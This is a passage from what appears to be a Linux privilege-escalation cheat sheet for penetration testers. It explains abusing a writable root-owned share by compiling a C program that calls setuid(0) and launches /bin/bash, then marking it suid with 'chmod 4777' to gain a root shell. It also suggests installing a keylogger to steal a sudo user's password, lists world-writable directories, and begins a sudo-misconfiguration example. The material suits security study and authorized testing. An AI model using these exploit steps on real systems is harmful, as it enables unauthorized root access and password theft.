 If that succeeds then you can go to `/tmp/share`. There might be some interesting stuff there. But even if there isn't you might be able to exploit it.

If you have write privileges you can create files. Test if you can create files, then check with your low-priv shell what user has created that file. If it says that it is the root-user that has created the file it is good news. Then you can create a file and set it with suid-permission from your attacking machine. And then execute it with your low privilege shell.

This code can be compiled and added to the share. Before executing it by your low-priv user make sure to set the suid-bit on it, like this:

```text
chmod 4777 exploit
```

```text
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

int main()
{
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

### Steal password through a keylogger <a id="steal-password-through-a-keylogger"></a>

If you have access to an account with sudo-rights but you don't have its password you can install a keylogger to get it.

### Other useful stuff related to privesc <a id="other-useful-stuff-related-to-privesc"></a>

**World writable directories**

```text
/tmp
/var/tmp
/dev/shm
/var/spool/vbox
/var/spool/samba
```

## Insecure File System Permissions

Consider the following Sudo configuration for our fictitious user account “appadmin”:

```text
$ sudo -l
[sudo] password for appadmin:
User appadmin may run the following commands on this host:
    (root) /opt/Support/start.sh, (root) /opt/Support/stop.sh, 
    (root) /opt/Support/restart.sh, (root) /usr/sbin/lsof
```
